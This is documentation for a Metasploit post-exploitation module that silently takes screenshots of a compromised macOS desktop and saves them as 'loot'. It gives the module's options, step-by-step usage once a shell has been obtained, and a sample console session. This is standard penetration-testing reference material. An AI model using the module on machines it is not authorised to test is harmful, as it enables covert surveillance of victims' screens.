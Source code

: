 ## Vulnerable Application

This module takes screenshots of target desktop and automatically downloads them.

## Verification Steps

  1. Start msfconsole
  2. Get a shell, user level is fine
  3. Do: ```use post/osx/capture/screen```
  5. Do: ```set session #```
  5. Do: ```run```
  6. You should have a screenshot saved to loot

## Options

### COUNT
  The number of screenshots to collect.  Default is `1`.

### DELAY
  Interval between screenshots in seconds. 0 for no delay.  Default is `10`.

### EXE_PATH
  Path to remote screencapture executable.  Default is `/usr/sbin/screencapture`

### FILETYPE
  File format to use when saving a snapshot (Accepted: png, gif).  Default is `png`.

### TMP_PATH
  Path to remote temp directory.  Default is `/tmp/<random>`

## Scenarios

### User level shell on OSX 10.14.4

```
msf post(osx/capture/keylog_recorder) > use post/osx/capture/screen 
msf post(osx/capture/screen) > set session 1
session => 1
msf post(osx/capture/screen) > run

[*] Capturing 1 screenshots with a delay of 10 seconds
[*] Screen Capturing Complete
[*] Use "loot -t screen_capture.screenshot" to see file locations of your newly acquired loot
[*] Post module execution completed
msf post(osx/capture/screen) > loot -t screen_capture.screenshot

Loot
====

host           service  type                       name              content     info        path
----           -------  ----                       ----              -------     ----        ----
222.222.2.222           screen_capture.screenshot  screenshot.0.png  image/png   Screenshot  /loot/20190414205923_default_222.222.2.222_screen_capture.s_194117.png
```
